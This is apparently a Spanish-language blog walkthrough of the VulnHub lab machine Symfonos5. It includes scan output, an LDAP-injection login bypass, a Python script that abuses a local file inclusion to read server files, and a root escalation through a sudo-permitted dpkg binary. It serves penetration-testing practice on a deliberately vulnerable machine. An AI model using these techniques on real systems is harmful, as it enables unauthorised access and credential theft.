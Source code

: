 ```yaml
---
layout: single
title: Symfonos5 - VulnHub
excerpt: "Symfonos5, una máquina vulnerable de VulnHub, presenta una vulnerabilidad de inyección LDAP que pudimos eludir en el inicio de sesión. Luego, a través de una vulnerabilidad de inclusión local de archivos (LFI), conseguimos obtener credenciales que nos permitieron autenticarnos en el servicio LDAP expuesto. Tras analizar el servicio, identificamos credenciales que utilizamos para iniciar sesión como el usuario 'zeus' a través de SSH. La escalada de privilegios se logró directamente a root mediante un error en la configuración de sudoers, al incluir una aplicación que nos proporcionó una shell."
date: 2023-11-04
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Symfonos5, una máquina vulnerable de VulnHub, presenta una vulnerabilidad de inyección LDAP que pudimos eludir en el inicio de sesión. Luego, a través de una vulnerabilidad de inclusión local de archivos (LFI), conseguimos obtener credenciales que nos permitieron autenticarnos en el servicio LDAP expuesto. Tras analizar el servicio, identificamos credenciales que utilizamos para iniciar sesión como el usuario 'zeus' a través de SSH. La escalada de privilegios se logró directamente a root mediante un error en la configuración de sudoers, al incluir una aplicación que nos proporcionó una shell.



## Enumeracion

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Fri Nov  3 06:59:59 2023 as: nmap -sCV -p22,80,389,636 -oN vulnscan.nmap 192.168.56.16
Nmap scan report for 192.168.56.16
Host is up (0.00027s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 1670137722f96878400d2176c1505423 (RSA)
|   256 a80623d093187d7a6b05778d8bc9ec02 (ECDSA)
|_  256 52c08318f4c738655ace9766f375684c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
MAC Address: 08:00:27:ED:4A:23 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 07:00:12 2023 -- 1 IP address (1 host up) scanned in 12.29 seconds
```

## Analisis 

La enumeración central empezara por el servicio http.


```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://192.168.56.16/FUZZ" -e .php,.txt,.html -t 200 -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.16/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 207, Words: 18, Lines: 19, Duration: 33ms]
home.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 38ms]
admin.php               [Status: 200, Size: 1650, Words: 707, Lines: 40, Duration: 3ms]
static                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 19ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 118ms]
portraits.php           [Status: 200, Size: 165, Words: 10, Lines: 4, Duration: 36ms]
                        [Status: 200, Size: 207, Words: 18, Lines: 19, Duration: 23ms]
.html                   [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 31ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 80ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 26ms]
```

Al examinar el archivo admin.php, notamos la presencia de un panel de inicio de sesión. Dada la utilización de LDAP, suponemos que el proceso de inicio de sesión está gestionado por este protocolo. Por lo tanto, llevamos a cabo un bypass, simplemente ingresando un asterisco tanto en el campo de usuario como en el de contraseña.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-login.png)

 Si nos dirigimos a portraits podemos ver un potencial LFI.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-nose.png)

La aplicación es vulnerable a una Inclusión Local de Archivos (LFI), por lo que optaremos por utilizar un wrapper que codifica el contenido de un archivo en base64. En este sentido, desarrollaré un script en Python para facilitar la lectura de archivos y agilizar el proceso.

```python
import requests,re,sys,base64

url="http://192.168.56.16/home.php?url=php://filter/convert.base64-encode/resource=" + sys.argv[1]
cookie = {"PHPSESSID":"dpao5t9vo0cuphgelo2mk3qf7v"}
regex = re.findall(r"<center>(.*?)</center>",requests.get(url,cookies=cookie).text,re.DOTALL)[0]
print(base64.b64decode(regex).decode())
```

Como primer paso, procedemos a determinar la ubicación de los archivos. Para ello, accederé al archivo /etc/apache2/sites-enabled/000-default.conf.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-rutaWeb.png)

Analizamos el archivo admin.php para ver como gestiona la verificación de credenciales.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-credenciales.png)

Nos logeamos en ldap para ver alguna información adiccional y vemos lo siguiente.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-sshcredenciales.png)

Realizamos una prueba para verificar si las credenciales de 'zeus' son válidas para SSH.

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-conectarSsh.png)

La escalada de privilegios es bastante sencilla; ejecutamos 'sudo -l'.

```bash
zeus@symfonos5:~$ sudo -l
Matching Defaults entries for zeus on symfonos5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

Ejecutamos las instrucciones que nos indica gtfbins

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-gtfbins.png)

## Shell - Root 

![](/assets/images/vulnhub-writeup-symfonos5/symfonos5-root.png)
